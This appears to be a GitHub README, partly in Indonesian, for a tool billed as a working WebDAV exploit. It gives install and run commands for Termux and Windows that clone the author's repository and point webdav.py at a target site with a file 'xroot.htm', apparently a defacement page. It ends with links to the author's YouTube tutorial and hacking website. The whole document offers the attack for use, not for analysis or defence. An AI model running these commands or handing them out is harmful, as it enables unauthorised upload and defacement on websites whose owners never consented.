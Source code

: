 # Exploit Webdav Windows & Termux Working

# Eksekusi via Termux

pkg update && pkg upgrade

pkg install -y git python2 curl php wget 

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod +x webdav.py

python2 webdav.py sitevuln.com xroot.htm

================================================================================
# Eksekusi via Window

Download Python27 : https://shortid.co/bFWBm

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod 777 webdav.py

python webdav.py sitevuln.com xroot.htm

================================================================================
# Screenshot Via Windows
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/webdav.png)

# Screenshot Target Webdav
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/target.png)

My Youtube    : https://www.youtube.com/channel/UCKdOPQ_iIXcqK17PB_2RMdQ

Link Tutorial : https://youtu.be/CPsFAoYt4Kc

My Website    : http://hackingforlive.cf,,https://hackingforlive.wordpress.com

My Facebok    : https://web.facebook.com/xroot.xroot.7

Moto : Berbagi Itu Indah

Regard Boychongzen aka Xroot
